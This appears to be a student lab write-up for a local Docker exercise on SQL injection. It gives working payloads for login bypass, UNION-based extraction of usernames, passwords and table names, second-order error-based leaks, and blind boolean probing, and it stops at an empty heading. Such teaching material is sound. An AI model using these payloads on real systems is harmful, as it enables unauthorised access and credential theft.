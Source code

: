 # Vulnerabilities in Applications: SQL Injections


## Environment setup

1. `sudo docker-compose up`
2. The appliction is now available at: [http://127.0.0.1:8000](http://127.0.0.1:8000) (inside the VM)

**Note 1:** In all exercises, adding the `?debug=true` argument to the URL will print some debug information.

**Note 2:** In all cases, you must terminate all SQL queries by using `-- //`. The objective is to discard all text after your payload.



## SQL Injection Attacks

### Basic SQL Injections I

The login validation is made by executing the following line:

`SELECT * FROM users where username='".$user."' AND password ='.md5($password).'`

Following this query structure, we put a valid username in the username input like this: `admin' -- //`.

This will make the atribution `username='admin` and ,with `--`, comment the rest of the query (`//` is necessary server language so that this strategy works).


### Basic SQL Injections II

In this exercise we are testing another login page.

In this one, the login validation is made by executing the following line:

`SELECT * FROM users where (username='".$user."') AND (password ='.md5($password).')`.

Following this query structure, we put a valid username in the username input like this: `admin') -- //`. In this case the closing paranthesis is necessary in order to bypass the query structure.

This will make the atribution `(username='admin)` and ,with `--`, comment the rest of the query (`//` is necessary server language so that this strategy works).

**Note:** In the past two sub-sections we exploited the username field because the pasword field is enctrypted with a hash before it goes to the server, so that field cannot be used to bypass the system.


### SQL Injections 

In this section we are testing a form that enables the search for products by partial matching of a string or character.

The query is made by executing the following line:

`"SELECT * FROM products WHERE product_name LIKE'".$query."%'`

There are several ways to take advantage of this and extract information:

 1. `b%' order by 5 -- //`
	
	The `order by N` directive is ordering the displayed information by the **column N**, in this way we can manipulate the order of data as we want.
	
	 The first part of the query (`CHARS%`) is necessary and lets us search for products that start with the pattern defined by **CHARS**.
	 
2. `'union select null,id,username,password,fname from users -- // `
	
	Following the same logic as in the first one, we can use the `union` directive followed by a `select` to populate the table we the information we want to see.
	
	In this specific example, we are able to access and see information about all users stored in the database.

3.  `'union select 1,'<img src="http://address"><img>',3,4,5 -- //`
	
	In this example (a little bit like the previous one), we are changing the information displayed and adding html code to display an image of our choice.

4. `'union select null,null,null,null,table_name from information_schema.tables -- //`
	
	One last example where we change the table's information and diplay the name of all the tables stored in the database.


### SQL Second order attacks
**Definition:** attacks that result in the storage of an unsanitized piece of SQL, that is later executed by an insecure function.

Basically, what we have is a field that will present any value we want.

The technique used in the last step can be used here.

The difference is that the information is not provided immediately, but only when the user executes the respective function.

This highlights the case that **SQL Injections can happen even in internal functions** that process data out of the database.

Examples:
1. `'or 1 in (SELECT @@version) -- //`
	
	When we execute the funtion, I will display an error.
	
	That error contains the information we wanted: `Warning 1292: Truncated incorrect DOUBLE value : 1.1.1.2`

2. `'or 1 in (select password from users) -- //`
	
	When we execute the funtion, I will display an error.
	
	That error contains the information we wanted: `Warning<: 1292: Truncated incorrect DOUBLE value : (...)`, where `(...)` are the passwords stored at the passwords' column of the table users.


### Blind SQL Injection
**Definition:** when an attacker is able to determine the content of the database by the result of an operation. That is, the attacker will not get data from the database, but it will get a code (Error code, true/false, etc... ) that provides information about the data in the database.

A good example is a page that displays information abouta user.

In this situation,  the user is specified in the URL. 

The query is:

`SELECT * FROM users WHERE username ='".$_GET["user"]."'`

We can bypass the system by write in the URL the following statement:
`user=bob' AND TEST -- //`.

If the TEST succeeds, information is presented. Otherwise nothing is presented.

Examples:

1. `user=bob' AND substring((select id from users limit 1), 1, 1)>0 -- //`
	
	In this example, we can test if the **id** column exists in the database (if the profile data is shown, the column exists; otherwise nothing is showed to the user).

2. `user=bob' AND substring((select count(id) from users), 1) = N -- //`

	In this example, we can figure it out how many users are stored in the users' table by changing the value N until the profile data is shown.

3. `user=bob' AND substring((select count(id) from users where username like 'a%'), 1) = N -- //`

	In this example, we can figure it out how many users have a username starting with 'a' by changing the value N until the profile data is shown.


### Error based data extraction
